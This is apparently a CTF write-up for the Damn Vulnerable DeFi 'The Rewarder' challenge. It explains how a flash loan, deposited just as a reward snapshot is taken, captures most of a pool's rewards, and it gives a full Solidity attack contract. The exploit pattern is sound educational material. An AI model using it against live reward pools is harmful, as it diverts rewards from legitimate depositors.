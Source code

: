     Alice, Bob, Charlie and David have already deposited some DVT tokens, and have won their rewards!

    You don't have any DVT tokens. But in the upcoming round, you must claim most rewards for yourself.

    Oh, by the way, rumours say a new pool has just landed on mainnet. Isn't it offering DVT tokens in flash loans?

- - -

In this challenge, we must claim most rewards for ourselves with no DVT token. The challenge also provides flash loan and reward pool. We need to keep an eye on reward pool, `TheRewarderPool.sol`. After deposit DVT token for 5 days, we can get rewards. However, there are already rewards in the pool from previous round, and rewarders have not claimed the reward. 
If we flashloan massive amount of DVT, and deposit to the rewarder pool, we will get most of the reward token.

First, we will borrow max amount of DVT from flashloan, and we will deposit it to rewarder pool. `deposit()` function will trigger `distributeRewards()` function, and since we have deposited very large amount of DVT the it will mint most of reward token. This is possible because `_hasRetrievedReward()` function can not fully validate retrieved address. Finally, we just repay flash loan, and send reward token to attacker. Here is attack contract:ß


```solidity
contract AttackTheRewarder {
    
    address flashLoanerPool;
    address theRewarderPool;
    address rewardToken;
    address liquidity;
    address owner;

    constructor(address _flashLoanerPool, address _rewardToken, address _liquidity, address _theRewarderPool) {
        flashLoanerPool = _flashLoanerPool;
        rewardToken = _rewardToken;
        liquidity = _liquidity;
        theRewarderPool = _theRewarderPool;
        owner = msg.sender;
    }

    function attackTheRewarder() public {
        uint256 amount = DamnValuableToken(liquidity).balanceOf(flashLoanerPool);
        FlashLoanerPool(flashLoanerPool).flashLoan(amount);
    }

    function receiveFlashLoan(uint256 amount) public {
        DamnValuableToken(liquidity).approve(theRewarderPool, amount);

        TheRewarderPool(theRewarderPool).deposit(amount);
        TheRewarderPool(theRewarderPool).withdraw(amount);

        DamnValuableToken(liquidity).transfer(flashLoanerPool, amount);

        uint256 rewardAmount = RewardToken(rewardToken).balanceOf(address(this));
        RewardToken(rewardToken).transfer(owner, rewardAmount);
    }
}
```
